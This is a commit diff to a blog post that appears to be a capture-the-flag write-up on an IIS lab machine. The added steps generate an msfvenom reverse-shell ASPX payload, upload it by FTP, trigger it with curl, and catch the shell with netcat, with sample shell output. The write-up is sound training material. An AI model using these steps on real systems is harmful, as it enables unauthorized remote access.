

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-21-devel.md, in a window 1280 px wide and 1400 px high, scrolled down 2103 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-21-devel.md
+++ b/_posts/2020-07-21-devel.md
@@ -95,23 +95,19 @@ local: test.html remote: test.html
 
 ![Website IIS](/assets/imgs/devel/test_html.PNG)
 
-
-
-
-
-
-
-
+I can upload files as I want, nice ! So now let's upload a reverse shell !
 
 ## Exploit
 
 ------
 
+For a reverse shell I used msfvenom and "aspx" extension because it's IIS.
+
 ```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f aspx > shell.aspx
 ```
 
-
+Upload the reverse shell :
 
 ```
 ftp> put shell.aspx
@@ -122,13 +118,34 @@ local: shell.aspx remote: shell.aspx
 2746 bytes sent in 0.00 secs (6.9280 MB/s)
 ```
 
-
+Start the nc listener :
 
 ```bash
 nc -lvp 1234
 ```
 
+Then go see the page where the shell is upload :
 
+```bash
+curl http://10.10.10.5/shell.aspx
+```
+
+And I have a connection :
+
+```bash
+nc -lvp 1234
+listening on [any] 1234 ...
+10.10.10.5: inverse host lookup failed: Unknown host
+connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49164
+Microsoft Windows [Version 6.1.7600]
+Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
+
+c:\windows\system32\inetsrv>whoami
+whoami
+iis apppool\web
+```
+
+I'm not "nt authority\system" (root on windows), I have the same rights as the web server, let's escalate !
 
 ## Flags
 
````
